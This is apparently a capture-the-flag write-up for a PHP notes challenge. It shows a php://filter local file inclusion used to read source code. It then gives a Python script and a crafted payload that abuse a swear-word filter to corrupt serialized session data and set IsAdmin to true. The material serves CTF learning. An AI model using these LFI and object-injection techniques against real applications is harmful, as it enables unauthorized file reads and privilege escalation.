

# Temporary Note

* Link [Callenge](http://challenges.0x0539.net:4455)

## exploiting.

### LFI (local file inclusion)

- we notice LFI vulnerability at `?action=` param.

- we can't get file that don't have `.php` extention.
- passing `../../../../etc/passwd` gives an error


- instead, we can look at the file's content using `php://filter/convert.base64-encode/resource=`
so:
```
?action=php://filter/convert.base64-encode/resource=index
```
this gives a base64 encoding of the source code.

- saving a file would be:
```
$ echo <BASE64 FILE ENCODING HERE> | base64 -d > <FILENAME>
```

### PHP Serialize Unserialize vulnerability

after exminig the code we notice that there's a function called `saveCurrentUser` that replace swears to with stars, then serialize it.
```php
$SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
```

### Objective

* Inside index.php we notice it's checking for flag:
```php
if($CURRENT_USER && !$CURRENT_USER->isAdmin()) {
        switch($action) {
                case 'flag':
                        $error = 'You need administrative privileges do perform this action';
                        $action = 'home';
        }
}
```

let's grab that file and check it:
```php
<?php
        if(strtolower($_SERVER['SCRIPT_NAME'])!='/index.php') die();
        if($CURRENT_USER->isAdmin()) echo file_get_contents('flag.txt');
?>
```

This file reads the content of `flag.txt` and prints it out.

* How to read the file:

we need be admin
`index.php`
```php
if($CURRENT_USER && !$CURRENT_USER->isAdmin()) {
```
and
`user.php`
```php
class User {
	...
        var $IsAdmin = false;
	...
        function isAdmin() {
                return $this->IsAdmin;
        }
	...
```

using the serialize vulnerability in `util.php`, we can change `$u->IsAdmin` value.

- We can examine locally by running a local server `$ php -S localhost:8000`

- We can also print the content of serialized objects:

so in `util.php`:
change
```php
                $swears = ["shit", "fuck", "bitch", "bastard", "asshole", "douche"];
                $_SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
                echo '

```
to
```php
                $swears = ["shit", "fuck", "bitch", "bastard", "asshole", "douche"];
                var_dump($_SESSION['USERS'][$u->getName()]);
                $_SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
                var_dump($_SESSION['USERS'][$u->getName()]);
                $_SESSION['CURRENT_USER'] = $_SESSION['USERS'][$u->getName()];
```

this will allow us to see see the following strings.

* After logging in and creating a note and editing it you'll notice this:
(Passing "Note One :)" into content)
the serialize user `$u` look like:
```
O:4:"User":4:{s:4:"Name";s:5:"0x539";s:5:"Notes";a:1:{i:0;s:11:"Note One :)";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:0;}
```
the function `saveCurrentUser` checks for any of any swear word inside that string, and replace it with `**********` which might mess up the serialize function, and that's why you'll get an error everytime try passing swears in a note or even the user name such as `shit`.

* How to exploit:

Simply by passing `Junk + 'shit'` couple times followed by `0x539";s:5:"Notes";a:1:{i:0;s:11:"Note One :)";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//` (notice we changed `IsAdmin` value) followed by `shit` couple time again.

* finding the right shift:
notice
```
a:1:{i:0;s:11:"Note One :)";}
```
`a` is for array (object type)
`1` length of the array
`{...}` object content (array)
`i` integer
`0` value of the integer (index name in the array, 0 in this case cause it's the first element)
`s` string (type)
`11` length of the string
`"Note One :)"` Note 1 content.

we can try on php
```php
php > $a=unserialize('a:1:{i:0;s:11:"Note One :)";};');var_dump($a);
array(1) {
  [0]=>
  string(11) "Note One :)"
}
```
so that's an array.

### Exploiting

Serialize load an object from a string, and the string have a specific format (something like `0:<object name length>:"<object name>":{id:<index>,<type>:<length>:"<var>"}`), you can check [serialize](https://www.php.net/manual/en/function.serialize.php) function, for better explanation.

mal formatted string passed to serialize will give an error.

* changing IsAdmin Value:

* `exploit.py`:

```python
import sys
import re


if len(sys.argv) < 5:
    print("Usuage:\n\rpython3 exploit.py 60 59 0 2")

# informational function
def calleb(s_b, s_c, s1, s_a=0):
    shit_rep=s1;
    a= lambda s_b, s_c, s_a, s1: len('A'*(s_b)+'*'*10*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'*'*10*s1)
    b= lambda s_b, s_c, s_a, s1: len('A'*(s_b)+'shit'*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'shit'*s1);
    print("stars :", a(s_b, s_c, s_a, s1), "A<N times><PAYLOAD>*<N times>");print("string:", b(s_b, s_c, s_a, s1), "A<N times><PAYLOAD>shit<N/4 times>");
    print(a(s_b, s_c, s_a, s1)-(a(s_b, s_c, s_a, s1)-b(s_b, s_c, s_a, s1)))

# before replacing swears
cc1 = lambda s_b,s_c,s_a,s1: 'A'*(s_b)+'shit'*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'shit'*s1

# after replacing string
cc = lambda s_b,s_c,s_a,s1: 'A'*(s_b)+'*'*10*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'*'*10*s1

# s is AAAA.. and s1 is "shit" repeated
# cc1 is the string passed
# cc is the resulted string
def try_calc(s_b, s_c, s_a, s1):
    calleb(s_b, s_c, s_a, s1)
    print("cc :", len(cc(s_b, s_c, s_a, s1)))
    print("cc1:", len(cc1(s_b, s_c, s_a, s1)))

    print("hitting:", len(re.findall("\*+", cc(s_b, s_c, s_a, s1))[1]))
    print(cc(s_b, s_c, s_a, s1)[:len(cc1(s_b, s_c, s_a, s1))+1], "with additional character if it's 0x539\" right at the end then go get the flag!")
    print("copy this?")
    print("----- START -----")
    print(cc1(s_b, s_c, s_a, s1))
    print("----- END   -----")
    print("[+] visit:")
    print("/?action=flag")


try_calc(int(sys.argv[1]), int(sys.argv[2]), int(sys.argv[2]), int(sys.argv[2]))

```

this gives the crafter payload

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAAshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshit
```

* create a new note with the payload

* visit /?action=flag

And we got the flag!
